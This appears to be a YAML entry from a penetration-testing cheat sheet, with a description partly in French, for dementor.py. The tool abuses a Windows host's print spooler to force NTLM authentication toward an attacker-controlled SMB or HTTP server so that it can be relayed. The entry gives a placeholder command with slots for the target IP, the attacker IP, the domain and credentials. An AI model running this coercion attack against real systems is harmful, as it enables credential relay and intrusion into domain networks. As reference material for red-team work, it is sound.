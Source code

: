 ```yaml
---
description: |
  dementor.py interagit avec le spooler d'imprimante d'un hôte pour déclencher une authentification de l'IP cible vers un hôte contrôlé par l'attaquant (généralement un serveur SMB ou HTTP). Cette authentification capturée peut ensuite être relayée pour authentifier d'autres hôtes. Plus d'informations dans ntlmrelayx.py.

  Command Reference:

  	Target IP: <IP_tar>

  	Attacker IP: <IP_att>

  	Domain: <domain.local>

  	Username: <user>

  	Password: <passwd>

command: |
  python3 dementor.py -u <user> -p <passwd> -d <domain.local> <IP_att> <IP_tar>
items:
  - Password
  - Username
services:
  - RPC
  - NTLM
OS:
  - Linux
  - Windows
  - Approved-tool
attack_types:
  - Exploitation
references:
  - https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc
  - https://www.praetorian.com/blog/active-directory-computer-account-smb-relaying-attack
---
```

